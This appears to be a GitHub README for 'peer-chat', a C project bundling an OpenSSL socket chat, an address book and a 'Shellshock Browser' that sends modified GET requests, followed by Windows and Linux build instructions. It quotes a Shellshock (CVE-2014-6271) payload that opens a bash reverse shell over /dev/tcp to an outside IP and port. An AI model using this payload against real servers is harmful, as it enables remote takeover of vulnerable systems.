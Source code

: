 **[peer-chat](#)** **[Tools](tools/)** **[PHP](php/)**

# peer-chat
* Server and Client OpenSSL Peer Socket Chat (Windows/Linux)

    most Bug free
    
* Addressbook functionality (Windows/Linux)

    Entry has Bugs
    
* http/https Shellshock Browser (Windows/Linux)

    most Bug free
    
    A Webbrowser that has a modyfied GET Request. It supports HTTP and HTTPS Connections.
    
    **[A useful Link](http://resources.infosecinstitute.com/bash-bug-cve-2014-6271-critical-vulnerability-scaring-internet/#gref)**
    
    The Shellshock it self: "env x='() { :;}; ' $(command -v bash) -i >& /dev/tcp/192.168.0.100/8080 0>&1"


# building

* On Windows: use DevC++ (latest) WIN32/WIN64 Compiler

with linker options:

-mwindows
-lssl
-lcrypto
-leay32 
-lws2_32 
-lpthread
-s

Code profiling -std=ISO C99

* On Linux:

# make
# sudo make install
# sudo make uninstall
# make clean
# make version
